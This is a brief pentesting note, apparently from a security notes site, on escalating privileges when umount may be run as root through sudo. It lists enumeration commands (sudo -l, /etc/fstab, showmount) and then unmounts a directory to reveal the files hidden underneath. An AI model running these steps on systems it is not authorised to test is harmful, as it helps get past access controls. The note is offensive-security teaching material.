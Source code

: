```yaml
---
title: Sudo Umount Privilege Escalation
description: Sudo umount is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
date: 2023-02-15
draft: false
---
```


## Investigation

```bash
sudo -l

(root) NOPASSWD: /bin/umount
```

If we can execute umount command as root, we can escalate to privilege.

<br />

## Exploitation

In target machine, check what directory is mounted.

```bash
cat /etc/fstab
showmount -e localhost
```

Assume the **`/opt/example`** folder is mounted.  
If we unmount this folder, original files, that existed before the directory is mounted, may appear.

```bash
sudo /bin/umount /opt/example
ls -al /opt/example
```
